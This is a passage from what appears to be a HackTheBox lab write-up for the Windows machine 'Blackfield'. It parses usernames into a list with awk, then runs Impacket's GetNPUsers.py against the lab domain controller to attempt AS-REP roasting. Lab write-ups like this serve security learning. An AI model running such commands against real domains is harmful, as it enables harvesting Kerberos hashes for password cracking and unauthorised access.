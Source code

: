 ![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250109202534.png)
Lots of users. Create a new users file. 

Cleanup this new `tmp` file with 

```
cat tmp | awk -F'\[' '{print $1}'
```

```
cat tmp | awk -F'\[' '{print $2}'
```

```
cat tmp | awk -F'\[' '{print $2}' | awk -F '\]' '{print $1}' > users.lst
```

Run #getnpusers again 

```
GetNPUsers.py -dc-ip 10.10.10.192 -no-pass -usersfile users.lst blackfield/
```
